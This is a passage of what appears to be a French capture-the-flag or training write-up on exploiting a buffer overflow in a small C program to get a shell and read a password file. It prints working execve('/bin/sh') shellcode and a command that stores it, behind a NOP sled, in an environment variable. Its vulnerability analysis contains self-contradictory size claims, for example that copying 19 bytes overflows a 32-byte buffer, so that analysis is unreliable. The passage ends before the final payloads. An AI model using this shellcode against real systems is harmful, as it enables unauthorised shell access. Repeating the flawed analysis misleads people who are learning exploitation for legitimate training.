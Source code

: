     Dans un second temps, la fonction `greetuser` construit une chaîne de caractères `hello` en fonction de la valeur de la variable globale `language`. Plus précisément, elle utilise une logique de conditions `if` pour déterminer la langue et construit une salutation en conséquence, `Goedemiddag!\0` si 'language' est `2`, soit si la variable d'environnement `LANG` commence par `fi`. Une fois `hello` construit, la fonction concatene la chaine de caractère `hello` et `local_var`, une variable `char` définie au début de la fonction.

    Le code présente plusieurs vulnérabilités majeures :
    - Premièrement, dans la fonction `greetuser()`, l'utilisation de `strcat` peut causer un dépassement de tampon, car la taille statique de `hello` (`30 octets`) est insuffisante pour accueillir `local_var` (`1 octet`), entraînant des risques de sécurité.
    - Deuxièmement, dans la fonction `main()`, le transfert des premiers `19 octets` de `buffer` vers `buffer_copy` dépasse la taille allouée pour ce dernier (`32 octets`), pouvant provoquer des écritures hors limites et des vulnérabilités.
    - Enfin, l'appel ultérieur de `greetuser()` avec des données potentiellement altérées dans `buffer_copy` expose le programme à un risque accru de dépassement de tampon lors de la concaténation de `local_var` avec la chaîne `hello`. Ces vulnérabilités pourraient être exploitées pour influencer le flux d'exécution, compromettre l'intégrité du programme et causer des problèmes de sécurité significatifs.

4. Avant tout, il est crucial de noter que le programme initial ne comporte pas d'instructions permettant l'exécution d'un `shell interactif` ou l'affichage du contenu de `/home/user/bonus3/.pass`. Par conséquent, pour atteindre ces objectifs, l'utilisation d'un `shellcode` est nécessaire : on utilise le `shellcode` permettant d'exécuter un `shell interactif` et que l'on stocke dans la variable d'environnement `SHELLCODE` (même `shellcode` que les précédents niveaux). À partir de là, l'idée ici est de générer deux payloads, un pour `argv[1]` et l'autre pour `argv[2]`. Le premier doit remplir entièrement la variable `buffer` à l'aide de la fonction `strncpy`, nécessitant donc un `payload` de taille `40`. Le second doit être construit de manière à provoquer un dépassement de tampon dans `buffer_copy`. On doit également y injecter le `shellcode` dont l'exécution est déclenchée par la manipulation ultérieure des opérations dans la fonction `greetuser`, permettant de contrôler ainsi l'exécution du programme.

   Shellcode :

    ```sh
    "\x31\xc0\x50\x68\x2f\x2f\x73"
    "\x68\x68\x2f\x62\x69\x6e\x89"
    "\xe3\x89\xc1\x89\xc2\xb0\x0b"
    "\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

    Lien : https://shell-storm.org/shellcode/files/shellcode-811.html


5. Dans un premier, l'on va donc créer une variable d'environnement `SHELLCODE` contenant le `shellcode` précédemment mentionné.

    ```sh
    > export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    ```

    On a :
    - `'\x90' * 100` : 100 fois le caractère `NOP` (`0x90`) pour se déplacer jusqu'au `shellcode` ;
	- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80` : Le `shellcode` en question.

